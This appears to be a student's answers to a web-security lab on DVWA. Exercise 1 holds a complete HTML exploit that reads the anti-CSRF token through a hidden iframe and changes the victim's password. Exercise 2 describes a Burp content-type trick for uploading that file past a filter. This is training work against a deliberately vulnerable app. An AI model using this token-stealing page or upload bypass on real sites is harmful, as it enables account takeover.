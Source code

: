 # Part 1 - Advanced Web Exploits
# Exercise 1

> [!exercise] Exercise 1 - CSRF Token Stealing
>
> When on the high-security setting of DVWA, a unique ANTI-CSRF token is created each time the password change page is accessed, as shown in the workshop. To launch a CSRF attack in this case, we first need to steal the token. Create an HTML (name it: 'csrf.html') file that can steal the token from the DVWA CSRF page and change the password to 'csf2024s1'.
>
> **Answer:**
>
> The default `html` file already does the stealing for us, we just need to add the `hacklab IP` to the `source` and `url` variables.
>
> ```html
> <html>
> <body>
>     <p>TOTALLY LEGITIMATE AND SAFE WEBSITE </p>
>     <iframe id="myFrame" src="http://192.168.56.102/DVWA/vulnerabilities/csrf/" style="visibility: hidden;"
>         onload="maliciousPayload()"></iframe>
>     <script>
>         function maliciousPayload() {
>             console.log("start");
>             var iframe = document.getElementById("myFrame");
>             var doc = iframe.contentDocument;
>             var token = doc.getElementsByName("user_token")[0].value;
>             const http = new XMLHttpRequest();
>             const url = "http://192.168.56.102/DVWA/vulnerabilities/csrf/?password_new=csf2024s1&password_conf=csf2024s1&Change=Change&user_token=" + token + "#";
>             http.open("GET", url);
>             http.send();
>             console.log("password changed");
>         }
>     </script>
> </body>
> </html>
> ```


<div style="page-break-after: always;"></div>

# Exercise 2

> [!exercise] Exercise 2 - Uploading the CSRF File
>
> Set the DVWA security level to MEDIUM. Upload the csrf.html file to the "hackable/uploads/" folder. Provide details of the steps you use to upload the HTML file with the security level set at medium.
>
> **Answer:**
>
> This was the exact same exercise from the workshop. Since the file upload only takes images, we simply intercept the packet in burp, change the content type to `image/jpeg` and forward it! 
> 
> ![[Pasted image 20240515072304.png]]
> 
> If we navigate to `<hacklab>/DVWA/hackable/uploads`, we can see the `html` file inside the directory.
> 